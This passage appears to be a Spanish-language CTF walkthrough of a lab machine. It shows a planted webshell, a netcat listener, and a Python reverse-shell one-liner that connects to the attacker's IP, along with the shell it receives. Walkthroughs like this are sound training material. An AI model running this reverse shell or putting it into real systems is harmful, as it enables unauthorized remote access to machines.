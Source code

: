 <br>
¡Bingo! Tenemos acceso a las webshells, en mi caso utilizaré `phpbash.php`.

![](/assets/images/bashed/phpbash.png)

Parece ser totalmente funcional.

## REVERSE SHELL

Vamos a enviarnos una revsehell a nuestro equipo para trabajar de manera más cómoda.

1- Antes nos ponemos por escucha con `nc`.

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```
<br>
2- Enviamos la shell a nuestro equipo.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
<br>
3- Recibimos la shell.
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.68] 54660
/bin/sh: 0: can't access tty; job control turned off
$ whoami
```